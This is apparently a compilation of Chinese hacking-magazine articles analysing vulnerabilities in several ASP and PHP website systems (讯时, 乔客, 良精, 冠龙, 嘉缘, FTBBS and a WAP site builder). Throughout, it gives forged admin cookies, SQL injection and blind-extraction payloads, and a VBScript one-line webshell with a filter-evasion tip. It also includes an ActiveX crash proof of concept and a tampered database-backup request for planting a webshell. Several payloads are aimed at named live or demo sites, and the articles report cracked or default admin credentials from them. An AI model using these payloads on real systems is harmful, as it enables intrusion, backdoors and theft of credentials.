抄出桂林老兵的 cookie 浏览器，在 cookies：输入 `admindj=1; adminuser=admin; adminpass=21232f297a57a5a743894a0e4a801fc3`，“adminuser” 后跟用户名，“adminpass” 后跟刚才猜出的 md5 散列。

填地址栏时要注意了，以前在域名后面直接加 admin_index.asp 再按连接就可以进后台了，但 3.0 版本已经把后台文件移到 admin 文件夹里了。加上 admin，点连接，成功进入后台，如图6。

在后台怎么获 webshell，相信大家已经轻车熟路了，不会的请参考以前“黑手”相关文章吧，再次略过～

此漏洞 2.8、2.9 版本也存在，相信其他低版本也是存在的。测试完后发现文件 news_more.asp 好像也存在注入漏洞，不过也是有限制的，能否成功取决于数据库结构，感兴趣的朋友去看一下吧。文笔仓促，有什么不对的地方望高手指点。
> 编辑点评：
> 讯时 CMS 前段时间被暴出不少漏洞，闹得风风雨雨的，最近稍微平静了些。本文作者针对其刚刚推出的新版本又分析了一个并不是很隐蔽的漏洞，看来说讯时还有待提高。

## 乔客 CMS 补掉的一个漏洞

Fly4t

- 从本文可以学到：
- 乔客 CMS 漏洞原理分析

乔客 CMS 一直以来都是有漏洞存在的，但是它的代码采用的是面向对象的写法，所以不是很好分析。本文分析的这个漏洞流传很久了，上个月因为它的存在，XX 防线（不孝猫、诚实玉米虫）就被人悄悄地搞了一下。前些日子乔客官方终于出补丁了，我们就来分析一下这个漏洞是如何产生的，又如何来利用。

首先，看 `/common/comment.asp` 文件，代码很简单：

```asp
call doWebHead()
call doSkinParse("comment", "")
call doWebEnd()

sub doPageParse()
    modComment.setMode("full")
    modComment.doLoad()
    modComment.doLoadUser()
    modComment.doParse()
end sub
```

文件在第 14 行调用了 `modComment.doLoad()` 函数，看名字也可以理解得差不多，这个函数是加载评论模块的。接着在第 16 行调用了该模块的 `doParse` 函数。我们首先找到评论模块的相关文件 `\common\include\VOPS\ModelComment.asp`，看 99 行到 102 行的 `doLoad` 函数是如何定义的：

```asp
public sub doLoad()
    doLoadConfig()    '加载配置
    doLoadTemplate()  '加载模板
end sub
```

继续向下找 `doLoadConfig` 函数，从 104 行开始：

```asp
public sub doLoadConfig()
    if var_Mode="full" then
        var_Channel=ops.request.getQuery("channel")
        var_dataid=ops.request.getQueryID("dataid")
        var_ChannelPage=ops.request.getForm("_page")
        if (var_ChannelPage<1) then
            var_ChannelPage=ops.request.getQuery("_page")
        end if
```

注意：`var_Channel=ops.request.getQuery("channel")` 这句代码。我们翻看 `\common\include\VOPS\VOPS.request.asp` 文件，在 34～37 行，`ops.request.getQuery` 方法是这样定义的：

```asp
public function getQuery(byval strer)
    getQuery=trim(request.querystring(strer))
end function
```

从这里可以看出来，`var_Channel` 变量是完全没有被过滤的，可以引入我们精心构造的恶意代码了。巧合的是，`comment.asp` 这个文件调用的另外一个函数 `doParse` 非常可爱地帮我们把构造的代码引入了查询语句，在同一个文件第 139 行开始：

```asp
public sub doParse()
    dim tmpSQL, tmpSQLQuery
    tmpSQLQuery=" is_on='1' "&var_Channel&" and id='"&var_dataid&"' and arr_hidden='1'"
    p.setDataDB "query", tmpSQLQuery


```

从上面的分析看出来，这是一个很明显的注射漏洞，MSSQL 利用起来应该比较方便。读取管理员密码还是备份 shell，就看你自己如何利用了。我这里提供一个添加管理员的 exp，随文附在光盘里。请使用该系统的朋友早点打补丁吧，呵呵。

文章就到这里，最后，亲亲偶滴宝贝接接（少儿不宜内容……）

> 编辑点评：乔客系统的安全还是不错的，加上其代码采取了面向对象的写法，使得很多朋友看起来不习惯，所以免遭了不少的骚扰；如果有朋友仔细分析一下，肯定还有不少新发现的。

## WAP 建站系统安全分析

欧阳无敌

- 从本文可以学到：
- WAP 漏洞分析
- 一些小技巧

### 一、踩点

打开 OPERA 浏览器，访问我们的目标站点 `http://wap.ucug.cn`，如图 1。我们从图 1 中的页面其实找不到什么很有用的信息，因为本来由于手机屏幕不大，页面元素有限，像版权信息这类的无聊东西是不会跑出来占用版面的。那么如何了解程序的版权信息呢？按照经验就应该从特殊文件名入手了。例如这个站点有个链接 `http://wap.ucug.cn/gonggo.asp`，像这类文件名的链接一眼看上去不是英文意思，也不是常见的整站文件，那就说明了它的特殊性。如果把这名字拿到搜索引擎一搜，目标的底细就很容易查出来，如图 2。结果真的不多，最终我们还是查出了程序的底细是“WAP 建站系统免费版”，因为这套程序使用频率很高，也是比较流行的，很多源码站点都有下载，接着就把它下了回来准备作为分析。
### 二、友情链接 ADDLINK.ASP 注入漏洞

经过初步分析，发现友情链接申请的地方存在问题，以下是 `ADDLINK.ASP` 关键代码：

```asp
Dim sql,rs

set rs=server.CreateObject("adodb.recordset")
sql="select * from link where name='" & name & "'"
rs.open sql,conn,1,3
if not (rs.bof and rs.eof) then
    errmsg=errmsg&"该网站已经提交了友情链接，请不要重复提交！<br/>"
```

上述语句进行了一次查询，如果提交的友情链接名称和数据已有的相同的话，就会报错。那么我们来看看那个关键的 `name` 参数有没有过滤：

```asp
name=Request.Form("name")
title=Request.Form("title")
url=Request.Form("url")
user=Request.Form("user")
if name="" then errmsg=errmsg&"网站名称不能为空<br/>" : flag=0
if title="" then errmsg=errmsg&"网站简介不能为空<br/>" : flag=0
if url="" then errmsg=errmsg&"网站地址不能为空<br/>" : flag=0
if user="" then errmsg=errmsg&"站长名字不能为空<br/>" : flag=0
```

非常搞笑地忽略了参数的过滤，仅仅是对 `name` 进行了是否为空值的一点判断，这样我们就可以利用了。现在说一下利用方法。我们先申请一次友情链接，在名称的地方随便填上一个，如 `hacker`，其他的随便乱填即可。提交申请后，我们再次来到申请页面，这次我们便来构造一下注入语句，在名称的地方填入如下语句：

```sql
Hacker' and ''<>'


```

放入查询语句就是：`select * from link where name='hacker' and ''<>'`，也就是说，这条语句在数据库查询中是不会有记录的，我们将会得到顺利申请的提示，如图 3。
这样子我们就得到一个注入点，虽然是文本框，关于文本框的注入，我将在后面给大家讲一个通用的技巧。

### 三、down.asp 文件注入

这个文件应该算是鸡肋了，因为在我做测试的过程中，并没发现有哪些站点上面是有文件下载的。`Down.asp` 就是供用户下载文件用的，我们看看它的代码：

```asp
dim id,lid,rs1,sql1,sql,did
id=Trim(Request("id"))
did=Trim(Request("did"))
lid=Trim(Request("lid"))    ' 提取三个提交的参数
if not isnumeric(id) then id=""    ' 判断数据的合法性
if not isnumeric(did) then did=""  ' 判断数据的合法性
if id<>"" and id<>0 and lid<>"" then
    sql = "SELECT * FROM ufile WHERE id=" & did    ' 用 did 进行查询文件
    Rs.Open Sql,conn,1,1
    if not (rs.bof and rs.eof) then
        cid=rs("cid")
        URLName=rs("name")
%>
<%
else
%><card id="index" title="暂无文件">
```

从上面看到，`id`、`lid` 都被 `isnumeric()` 函数过滤了，可是作者就是忽略了一个 `did` 参数，这样又在查询语句里面给了我们机会，但这里不作演示，因为之所以说它是鸡肋，主要是因为目标站点里面没有什么文件记录，所以很难构造出来存在的记录。因为无论提交任何注入语句，服务器都会返回“暂无文件”。不过后来思考了一下，还是有突破的，比如 `union` 就可以一步到位，因为 `union` 本身就是要你不存在记录，也就不必考虑返回错误提示之类的信息了。大致上可以用 `union select 1,2,username,password from admin` 来进行注入，至于字段的位置和字段的数目，那就留给读者们去摸索了，没什么技术含量的东西了。

### 四、一击必杀 d.asp

最后说的这个文件也是老掉牙的注入了，翻出来的语句是这样的：

```asp
dim id
dim rs
id=Trim(Request("#"))
id=Trim(Request("id"))    ' 正是这个 id 参数没经过任何过滤。
Set Rs = Server.CreateObject("Adodb.Recordset")
Sql = "SELECT * FROM ufile Where id=" & id    ' 直接放进语句查询，构成注入点。
Rs.Open Sql,conn,1,3


```

前面说道，一般站点数据库中大多数没有文件可供下载，但是要是遇到某些站点的 `ufile` 表里面存在记录呢？而我们又不知道记录的 `id` 是多少，那应该如何入手呢？除了 `union` 以外还是有方法的，看看下面就知道了：

| 提交语句 | Ufile 内是否存在记录 | 返回结果 |
|---|---|---|
| `d.asp?id=-1 and '1'='1` | 否 | 暂无文件 |
| `d.asp?id=-1 and '1'='1` | 否 | 暂无文件 |
| `d.asp?id=-1 and '1'='1` | 是 | 暂无文件 |
| `d.asp?id=-1 or '1'='1` | 是 | 返回数据的某一条记录 |

从上面的表中我们知道，SQL 注射工具需要特征码来判别，那么至少我们要有个正确的返回页面吧？那么读者们可能已经知道了，没错，我们要的就是最后那一句，放到 NBSI3 里面就是：`http://wap.ucug.cn/d.asp?id=-1 or 1=1`，然后特征码那里随便选取返回正确记录的网页中的特定字符就 OK 了。如图 4 是我猜解的信息。
直接把 MD5 爆了出来，呵呵，19831206。接着就是拿着密码进后台 `admin/admin_login.asp`。

后台拿 webshell 再简单不过了，就是上传图片木马，再进行数据库备份木马就 OK 了，过程就不写出来了，给大家截个 webshell 的图，如图 5。

而且这个 webshell 还是可以用于手机 WAP 浏览的哦，够刺激吧？又可以去骗 MM 了。
最后来简单说一下关于文本框的注入问题。有朋友说这种注入很麻烦。其实不然，我们只需要做一些提取工作，例如一个包含 `username` 和 `password` 的表单，我们只需要把必须项目找出来，打开 NBSI，用这类的形式就可以了：`Checklogin.asp?username=abc&password=cba`。这样就跟 URL 的形式是一样的。有人还说这样依然检测不出注入点，其实像表单一般都用 POST 来提交，而 NBSI 默认是 GET 的方式，我们按照图 6 把 GET 改为 POST 就可以注入了。
本文到这里就已经结束了，技术含量很低，主要是给大家一些思路，目的就是抛砖引玉。大家找 webshell 的时候不要局限于一些传统的站，其实 WAP 也是一片热土哦。

> 编辑点评：不得不承认，我们确实给 WAP 的关心不够，一是很多人认为 WAP 很神秘；二是 WAP 站点比较少；三是手机操作实在麻烦，且 WAP 访问速度实在不敢恭维。大家可以使用 OPERA 来模拟手机访问，在电脑上完成分析和测试。

## 菜鸟也来学

## ActiveX 漏洞挖掘
- 从本文可以学到：
- ActiveX 漏洞挖掘过程
- ActiveX 漏洞分析思路

测试环境：Windows XP + IE6  
软件：5QIM 2.0.0.9（校内网出的即时通讯软件）、ComRaider、COM Explorer

07 年出了很多 ActiveX 的漏洞，利用第三方软件的 ActiveX 型溢出漏洞制作的网马更是成为挂马者的主流选择。其实挖掘 ActiveX 型的漏洞并不是很难，我就把最近我的学习心得写出来和广大朋友一起进步，不对的地方请高手指出。

首先安装 5QIM，安装好以后就可以和校内网上的好友聊天了，界面如图 1。

下一步我们用 COM Explorer 来查看软件注册了的 DLL 文件的相关信息，如图 2，我们就选择 `5QImWeb2328.dll` 来测试。
用该软件可以很快地查到它的 CLSID：`5C56F4A7-71FC-4FFD-A9D7-18FB87A9DFC6`，如果存在漏洞的话，就可以通过它触发。

下面我们用 ComRaider 加载分析该 DLL，如图 3、图 4、图 5，一路点击 next 就可以了。
该 DLL 里面的函数都被很清晰地分析出来了，我们只要挨个进行测试就可以了。首先登录 5QIM，我们来测试其中的一个函数 `Start5QIMWithIY`，它是这样定义的：
```vb
Function: Start5QIMWithIY
ByVal: bstrUserID As String
ByVal: bstrPWD As String
ByVal: bstrIY As String
As: Long
```

前两个参数应该没有问题，是用户名和密码，我们来看看第三个参数提交超长会有什么现象。测试代码如下：

```html
<object id="xiaonei" classid="clsid:5C56F4A7-71FC-4FFD-A9D7-18FB87A9DFC6" style="display:none">
</object>
<script>
function crash() {
    var buff ...
}
</script>
```

```html
for(i=0;i<=5000;i++){ buff+='AAAAAAAAAAAAA' }
object = document.getElementById('xiaonei');
object.Start5QIMWithIY('test1','test',buff);
...
<a href="javascript:OnClick='crash()'">Crash...</a>


```
将上面的代码保存为 HTML 页面，访问并点击 crash，怎么样？IE6 崩溃了！！这样我们就轻轻松松地发现了 5QIM 的一个 Denial of Service 漏洞。

怎么样？心动了吧？一起行动吧。下次我们再一起来学习用 OD 和 IDA 来具体地定位漏洞产生的地址和分析漏洞产生的原因，大家都不要错过《黑客手册》哦。

## 编辑点评

漏洞分析的最终一步都是分析相关代码，开源的程序我们可以很方便地看到源代码，而被封装为 DLL 文件后，我们需要借助一定的手段将其“真面目”还原。

本文是个相当不错的 ActiveX 漏洞入门实例，期待下一期更加精彩。

## 对良精科技企业网站管理系统的漏洞分析与技巧

黑牌 / 社华军（rootkit.com.cn）

- 1. 总结了漏洞分析的流程和基本技巧
- 2. 实际例子解析

良精科技企业网站管理系统简称：liangjing.net，程序界面很美观，有中英文双语版，可以开展学校代码，不懂编写网页的人也可以有自己的公司/企业网站，基本资料都在后台管理里面修改，很是方便。下面就对其注射漏洞和大家一起简单分析一下。

> 【小技巧】  
> 有时候写入一句话会过滤掉 `%`，只要写成

```asp
<script language="vbscript" runat="server">
if Request["hohack"]<>"" Then Session("diaopai")=Request("hohack")
if Session("diaopai")<>"" Then Execute(Session("diaopai"))
</script>
```

> 就可以了。

### 一、分析流程

### 1、上传漏洞

上传漏洞源于动网，嘿嘿，是拿 webshell 来得最快最直接的方法。现在一般程序很少见了，上传漏洞首先看是否加了验证，或者能否绕过验证，这里上传处理文件使用的是化境无组件上传，所以不存在上传漏洞。

### 2、验证不严

验证不严，就是在登录时对变量检查不严，导致用户可以直接登录后台，比较典型的就是 `'or'='or'` 登录。这里处理登录文件的不是 `login.asp`，而是它包含的 `Admin_ChkLogin.asp`，在 `login.asp` 文件的 `action` 后或者抓包都可以找到如下代码。

```asp
username=replace(trim(request("username")),"'","")
password=replace(trim(Request("password")),"'","")
CheckCode=replace(trim(Request("CheckCode")),"'","")
```

是利用 `request` 获取后过滤掉 `'`，再看看进行数据库查询的语句，代码如下。

```asp
sql="select * from Admin where password='"&password&"' and username='"&username&"'"
```

很遗憾这里是单引号引入，如果是直接引入变量，只要逻辑关系是假 and 真 or 真就可以绕过。

### 3、文件写入漏洞

关于这个漏洞我很久没遇到了，这里只给大家简单介绍一下什么是文件写入漏洞。说白点就是在某个文件里面插入一句话木马。去年的无忧传奇 SF 发布系统就出现过这个漏洞，后台的某个文件没验证，只要自己构造表单就可以将一句话写入到 `config.asp` 文件中。

### 4、暴库漏洞

这个漏洞的原理在以前《非安全》中貌似没人讲过。“%5c” 暴库大法，这种方法被认为是暴库绝招，简单点说就是在打开网页时，把网址中的 `/` 换成 `%5c`，然后提交，就可能暴出数据库的路径。

“%5c” 暴库法，它不是网页本身的漏洞，而是利用了 IIS 解码方式中的一个特性，如果 IIS 安全设置不周全，而网页设计者未考虑 IIS 错误，就会被人利用。不过这套系统还是出现过这种错误，关于暴库的详细解说，请购买非安全出品的《精通脚本黑客》。

### 5、跨站漏洞

跨站漏洞是小菜最为淡忘也不喜欢尝试的一种入侵手段，其实不然，跨站威力也是很巨大的，最近的 DZ 跨站加管理员相信很多人都听说过。这套系统我只发现一处跨站，在注册公司名称那里，但是限制了字符，却可以本地修改提交，不过这不是今天的重点。

### 6、注射漏洞

之所以把注射放在最后写，是因为这个系统存在的注射不少于 4 处。先拿 `DownloadShow.asp` 文件说吧，代码如下。

```asp
dim DownID,Content
DownID=trim(request("DownID"))
if DownID="" then
  response.Redirect("Download.asp")
end if

sql="select * from Download where DownID=" & DownID & ""
Set rs=Server.CreateObject("ADODB.Recordset")
rs.open sql,conn,1,3
```

再看看 `ProductShow.asp` 文件：

```asp
dim ArticleID
ArticleID=trim(request("ArticleID"))
```

```asp
if ArticleID="" then
    Response.Redirect("Product.asp")
end if

sql="select * from Product where ArticleID='" & ArticleID & "'"
Set rs = Server.CreateObject("ADODB.Recordset")
rs.Open sql, conn, 1, 3


```

简直就是一个模子里刻出来的。还有几个文件（NewsInfo.asp、Product.asp）就不一一写出来了，不然土豆老编恐怕要废了我（土豆呢喃：我有那么凶残么 :(）。
## 二、简单利用

本地测试，这次就写写手动注射，第一次写手动注射文章，支持。注入点为：http://127.0.0.1/Chinese/DownloadShow.asp?DownID=23，确定存在注射，所以 and 1=1 和 and 1=2 就免了，我们一步一步来。

- 1. 首先判断是否存在 admin 这张表  
  and 0<(select count(*) from admin)，--如图1。  
  返回正常页面，说明存在 admin 表。

- 2. 猜解字段名称，在 len() 括号里面加上我们想到的字段名称  
  and 1=(select count(*) from admin where len(username)>0)，--如图2。  
  返回正常页面，说明存在 username；再换成 password，也正常。如果不存在则显示如图3的情况。
- 3. 猜解各个字段的长度  
  And (Select Top 1 len(cstr([username])) From (Select Top 1 * From [admin] Where 1=1 Order by [username]) T Order by [username] desc)<=2，出错。  
  And (Select Top 1 len(cstr([username])) From (Select Top 1 * From [admin] Where 1=1 Order by [username]) T Order by [username] desc)<=4，出错。  
  And (Select Top 1 len(cstr([username])) From (Select Top 1 * From [admin] Where 1=1 Order by [username]) T Order by [username] desc)<=6  
  这时正常，说明字段长度在 4-6 之间。下面确认一下。  
  And (Select Top 1 len(cstr([username])) From (Select Top 1 * From [admin] Where 1='1' Order by [username]) T Order by [username] desc)=5，如图4，猜测正确。  
  那么就是 admin 没错了，下面看看密码是否为 16 位，语句如下：

```sql
And (Select Top 1 len(cstr([password])) From (Select Top 1 * From [admin] Where 1=1 Order by [password]) T Order by [password] desc)=16


```

如图5。确定是 16 位，应该是 md5 加密的。最后就剩下猜密码，语句不写出来了，留给大家作业，看哪种语句猜测速度最快。多实践才能进步嘛，嘿嘿。由于事先看源码得到表 admin、字段 username、password，所以一路猜测才这么顺利，现实网站测试的时候也许就没这么顺利了。
## 三、总结

看似牢固的系统，可是安全方面却存在不少问题，尤其是注射。这里简单写了一些个人的技巧，当然别因为这些技巧而束缚了自己的思想，多动脑、多动手才能创新突破。欢迎高手指出文章的瑕疵，还有不明白的到《黑客手册》论坛找我，ID 是：雕牌。

> 编辑点评：文章采用常规寻求漏洞的流程和方法，最后加了一个实际的例子，看起来应该更容易理解。

## Ftbbs PHP 版注入漏洞分析

图 sniper.hg [O.S.T]

- 从本文可以学到：
- 快速找到可能存在问题的小思路
- PHP 基本漏洞分析过程

好久没写稿子了，不知道怎么搞的，就是没有感觉，坐在电脑面前不像以前那样会一个劲地翻文件找 BUG，现在老是玩游戏、看电影，耽误了正事。现在 ASP 被大家都搞透了，每次《黑客手册》的文章都是讲 ASP 的漏洞的，很少有 PHP 方面的，于是我打算往这方面走，毕竟 ASP 命不久矣，微软力推它的 .NET，而 PHP、JSP 也很强大，ASP 的淘汰貌似只是时间问题了（老翁一脸茫然地问：这是真的吗？）。

眼睛有点酸了，不过还是有些收获，记得我暑假的时候分析了飞天论坛的 ASP 版本的跨站问题，这次却找到的是它 PHP 版本的注入漏洞，有漏洞的版本是最新的 FTBBS_PHP_GBK V4.1，其他版本没有测试。

12 月的 lizaib 作者教了大家怎么去有效率地找脚本漏洞并提供了相关的工具，我就用他的方法。不过我是用 DW 去找 PHP 的 BUG，那些所谓的漏洞分析器再厉害也是人写出来的，所以人脑要比工具厉害。打开 **DreamWeaver**，编辑→查找和替换，选择 PHP 程序所在的文件夹，输入要查找的字符，我这里用的是 `$_POST[`，PHP 用来以 POST 的方式接收变量的函数。
再点击“查找全部”，不一会儿包含这个函数的文件都出来了，然后我们就一个一个地看过来，如图2。

有的地方用到一个 `ftbbs_request()` 函数，此函数原型如下：

```php
Function ftbbs_request($var_name)
{
    if (get_magic_quotes_gpc()==0)
    {   // 系统不支持自动转换
        Return (addslashes($var_name)); // 进行转换
    }
    else
    {
        Return ($var_name);
    }
}
```

意思是，如果 **magic_quotes_gpc=On** 那么就不用转换，因为 PHP 会自动在一些特殊字符前加上反斜杠；如果 **magic_quotes_gpc=Off** 就用函数 `addslashes` 将变量中的单引号（`'`）、双引号（`"`）、反斜杠（`\`）和空字符前添加反斜杠（`\`）。所以涉及到 `ftbbs_request()` 函数的过程及文件我们就不要去碰了，并且如果你遇到个 PHP 的主机，只有 magic_quotes_gpc=Off 时注入才能生效，因为要用到单引号。这里我的目标是 **SMSBBS.PHP** 文件，因为没有涉及到 `ftbbs_request()`，漏洞代码如下：

```php
{
    $postuser=$_GET["postuser"];
    $id=$_GET["id"];
    if ($postuser==""){
        $postuser=$_POST["postuser"];
        $rd="";
    }
    else{
        $rd="readonly";
    }
    if ($_POST["act"]=="qy"){
        $sender=get_cookie("username");
        $accepter=$_POST["postuser"];
        $title = ftbbs_request(trim($_POST["title"]));
        $content=$_POST["content"];
        $content=htmlspecialchars($content);
        $title = nojs($title);
        $content = nojs($content);

        $sql="select clubuser_id from clubuser where clubuser_name='".$postuser;
```

```php
$rs=mysql_query($sql);
$row = mysql_fetch_array($rs);
$numrows = mysql_num_rows($rs);
if ($numrows!=0){
    $str="insert into sms(title,content,sender,accepter,indate,isNew) values ('".
        $title."','".$content."','".$sender."','".
        $accepter."', '".$gtimenow."',1)";
    mysql_query($str);
    echo '<script language="javascript">alert("发送成功！");history.go(-2);</script>';
    exit;
}
else{
    echo '<script language="javascript">alert("你所发送的用户不存在，请查对!");history.go(-2);</script>';
    exit;
}


```

`$postuser` 变量被带入 SQL 语句，并且在进入查询前也没有经过任何的过滤。我们来本地测试一下，申请一个账号，进入“我的信箱”，点击发送短信，这里收件人可以写自己，我在这里申请的账号是 admin，我们填写 admin，标题和内容就随便填写了，发送短信，显示发送成功。
接下来我们填 `admin' and '1'='1`，发送，还是显示发送成功，如图3。

然后换成 `admin' and '1'='2`，却出现的是“用户不存在”的错误提示，如图4。
因为是在表单里注入，根据返回的信息来判断正误的，就不能用 union 查询，只能自己手工来一次一次地猜了，力气活谁都可以做的哈。

除了这个鸡肋注入外还有更好用的，这次我还是用 DW 搜索，关键字用的是 `$_GET[`，另外一种变量接收方式出现在 `ftbbsmyinfo.php` 文件中，漏洞代码：

```php
$ftbbsuser=$_GET['ftbbsuser'];
$query = "SELECT * FROM ftbbsmh";
$ftbbsmh=imagecache('ftbbsmh.html',$query,$expire);
$sdefaulthome=$ftbbsmh[3];

if ($sdefaulthome==1){
    $homepage="ftbbshome.php";
}
else{
    $homepage="main.php";
}

$sql="select clubuser_id, clubuser_name, payuser_userimg, clubuser_email,
clubuser_address, clubuser_reg_date, clubuser_enter_count, clubuser_sex,
clubuser_marriage, clubuser_lasttime, signname, postnum, tili, jingyan from clubuser
where clubuser_name='".$ftbbsuser."'";


```

`get` 了 `$ftbbsuser` 却没有任何过滤就进了 SQL，这样注入就出现了，而且是十分好利用的 GET 类型，直接给 HDSI 跑一下都显示有注入，如图5。

剩下的工作交给工具或是 UNION 查询都是个不错的办法。测试官方的时候估计服务器上 magic_quotes_gpc=On，所以弹个框告诉我是非法字符。

> （小编注：提示非法字符和 magic_quotes_gpc 是不是 On 没有关。）
小编认为其官方的版本应该加了防注代码。

FTBBS 还存在一个暴路径的 BUG，提交一个不存在的变量名给 `ftbbsmyinfo.php` 文件，比如 `ftbbsmyinfo.php?fuck=luck`，就可以暴出网站的物理路径了，如图6。

我用这漏洞成功拿到一个用 FTBBS 的网站的管理员账号密码，如图7。
当然，其他的文件也有许多的漏洞，我就不一一指出来了，还有跨站的问题，总的一句话来说，这程序不咋滴。小弟初学 PHP，只知道个皮毛，有任何纰漏希望高手指出。

> **编辑点评：**

作者熟悉的是 ASP 漏洞，这篇文章介绍了自己是怎么转过来探寻 PHP 漏洞的过程，虽然没有什么高深的技术，但是希望熟悉一种脚本的朋友可以尝试着看看其他脚本，原理都是差不多的。

## 检测冠龙科技网站管理系统

Cool_wXd

- 1. 冠龙科技网站管理系统漏洞分析
- Dreamweaver 的另类使用

今天在站长站上闲逛时又一次看到了冠龙的这套程序，回想自己第一次注意到这套程序的时候，还是看手册上刚刚提起 Cookie 注入概念的时候，可以说这套程序对我当初学习 Cookie 注入帮助也是很大的，而且前一段时间还爆出了跨站漏洞，不知道这套系统现在还有没有什么有意思的漏洞没有被我们挖掘出来，所以便下载了这套程序检测一下，版本是冠龙科技企业网站管理系统 V8.2。

手册在 07 年的 12 期里面有 lizaib 的一篇《菜鸟挖漏洞，黑战就是这么轻松》的文章，看了这篇文章我也学到了不少知识，相信对像我这样的小菜黑友们应该是有很大的帮助的！这里我也给大家介绍一下我的方法，这个技巧也是曾经在别的朋友那里学来的，就是使用 Dreamweaver 了！我们知道 Dreamweaver 可以对单个文件或文件夹下的文件进行关键字搜索，那么结合 lizaib 的文章也正好能达到我们的功效！我们知道 ASP 中获取变量的方式是通过 Request 对象，那么我们搜索这个关键字不就可以达到快速寻找 SQL 注入漏洞的目的吗？好的，按照这个思路我们看，首先，如图1所示在 Dreamweaver 中对冠龙科技网站管理系统的源代码进行搜索，搜索的关键字就是 `request`。

然后选择查找全部，那么所有含有 `request` 的文件和相应的位置就会在结果中显示出来，如图2。

这样我们就可以在结果中对可能存在 SQL 注入的文件进行快速的查找了！如图3。
按照这个思路，在我们不懈的努力下，我们发现这个页面的 id 变量在这一条语句中没有经过任何的过滤，也是极有可能存在注入的（这里这句话可能会误导很多朋友，因为很多程序都是这样写的，但大多数不会在这条语句的下一条语句中对 id 进行判断或者是过滤，不过既然我们是为了挖掘漏洞就不能放弃这一点点希望吧），让我们来看 `CompHonorBig.asp` 这个文件吧！双击这一条结果，在代码栏中就给出了 `CompHonorBig.asp` 文件，同时 request 部分为高亮显示，让我们来看看代码，如下：

```asp
<%
dim id
id=request.QueryString("id")
%>
<html>
<head>
<title>图片</title>
<meta http-equiv="Content-Type" content="text/html; charset=gb2312">
<%
set rs=server.CreateObject("adodb.recordset")
rs.open "select * from CompHonor where id="&id,conn,1,1
%>


```

我们看到事实上这个 id 确实是没有经过任何的过滤，便在第 10 行放入到 SQL 语句中去执行，同时 `CompHonorBig.asp` 文件也没有 include 网站系统的防 SQL 注入文件，那么这个 SQL 注入漏洞也就成立了！

在网站页面中显示的地方为“公司荣誉”（或者是“系统荣誉”）。下面我们在冠龙科技的官方演示站点测试一下吧！
在浏览系统荣誉部分时，首先提交 URL：`http://www1.glgk.com/dfg/CompHonorBig.asp?id=17 and 1=1`，返回正常，如图4。

然后提交：`http://www1.glgk.com/dfg/CompHonorBig.asp?id=17 and 1=2`，返回错误，如图5。
这也就证明了我们查找到的 SQL 漏洞是确实存在的，至于破解密码部分我们就交给工具好了，我这里使用明小子的 DOMAIN3.5，如图6。

可惜的是冠龙科技的官方站点将后台地址修改了，使我们不能对官方的后台进行进一步的入侵，不过我们的目的不在于破坏而是寻找技术的突破，我想文章写到这里也就够了。

至于这套系统的跨站部分，前一段时间网上已经公布了，这里就不浪费手册的版面了。其实文章没有什么技术含量，主要就是介绍一下使用 Dreamweaver 挖掘漏洞的方法，希望那些像我一样菜的朋友们能够一起学习更多的黑客技术来提高我们自身，不过切记不要破坏了！好，文章就写到这里，如果朋友们有什么疑问可以到论坛找我，我的注册 ID 为 Cool_wXd。

编辑点评：  
Dreamweaver 的用处还真不错，记录下来备用吧。

## 甲壳嘉缘人才系统

□ Cool_wXd

- 从本文可以学到：
- 嘉缘人才系统漏洞分析
- webshell 的获取

前段日子无聊的时候简单看了看嘉缘人才系统的程序，今天在站长站上看到嘉缘人才系统有更新了，并且声明修改了以前所发现的 Bug，我下载了一套最新版的，下面来看看我对这套系统的分析吧，版本为嘉缘人才网站管理系统 v6.0.1207 精简版。

### 一、注射漏洞

虽然简介中说补上了已知漏洞，不过在检测过程中还是发现了几个注入漏洞，下面我们就以其中一个注入漏洞为例说说这套系统的注入漏洞，来看看 `person/person_sendresume.asp` 的代码吧。这个文件就有几处注入漏洞，我们看其中的一个吧，行 147—152，如下：

```asp
resumeid=request("resumeid")
if resumeid="" Then
  Response.Write "<script language=JavaScript>alert('错误：请选择简历!');location.href='javascript:history.go(-1)';</script>"
  Response.End
else
  set rs=conn.execute("select * from job_p_resume where resume_pmember='"&pmember_login&"' and resume_id="&resumeid&"")
```

我们看到，系统在对 `resumeid` 这个变量获取之后，只是判断了是否为空，然后便在行 152 处进行了 SQL 语句的操作！而且 `person_sendresume.asp` 也没有 include 相关防止 SQL 注入的文件，这样一个注入漏洞也就形成了！在页面中体现的地方是发送简历的页面。

下面我们再看看对官方演示站点的测试！首先注册并生成一份简历的过程我们就不啰嗦了，直接进入发简历，通过源代码我们可以找到我们简历的相应 `resumeid` 的值，我这里的值是 273。构造如下：

```text
http://demo.finereason.com/person/person_sendresume.asp?sendresume=1&sendemail=1@1.com&step=send&resumeid=273 and 1=1


```
返回结果如图1。

然后我们再提交：

```text
http://demo.finereason.com/person/person_sendresume.asp?sendresume=1&sendemail=1@1.com&step=send&resumeid=273 and 1=2


```

返回结果如图2。

这个漏洞也是前一个版本中存在的，而且工具检测是实现不了的，下面我们就进行相应的 SQL 猜数字游戏吧，这里就不截图了，为了照顾小菜，把相关的 URL 给列出来，如下：
- 判断表段：  
  `http://demo.finereason.com/person/person_sendresume.asp?sendresume=1&sendemail=1@1.com&step=send&resumeid=273 and exists (select count(*) from job_admin)`

- 判断字段：  
  `http://demo.finereason.com/person/person_sendresume.asp?sendresume=1&sendemail=1@1.com&step=send&resumeid=273 and (select count(job_user) from job_admin)>0`  
  `http://demo.finereason.com/person/person_sendresume.asp?sendresume=1&sendemail=1@1.com&step=send&resumeid=273 and (select count(job_pass) from job_admin)>0`

猜值的 SQL 语句就写出一个就好了，判断 `job_admin` 中的 `job_user` 的第一位：

```text
http://demo.finereason.com/person/person_sendresume.asp?sendresume...

```text

```
=1&sendemail=1@1.com&step=send&resumeid=273 and
(select top 1 asc(mid(job_user,1,1)) from job_admin)>65
```

结果发现官方演示站点的后台就是默认的 admin 和 admin888，后台如图3。

## 二、获取 webshell

有了后台，看看怎么获取 webshell 吧！首先我们看的是备份数据库了，我们发现备份数据库表单数据是不能修改的，我想这些应该是难不倒我们的吧！看看我的操作，首先是在前台上传一个 gif 格式的木马文件，然后在后台正常备份数据库抓包，修改 POST 信息，主要修改如下。


```text
原来数据：(Content-Length: 117)
DBpath=%2Fdatabase%2Fjobcom.mdb&bkfolder=
%2FBackUp&bkDBname=20071216171500.mdb&
baksubmit2=%B1%B8%B7%DD%CA%FD%BE%DD

修改后的：(Content-Length: 133)
DBpath=%2FUpFiles%2FPerson%2F20071216171333.gif&bkfolder=...
```

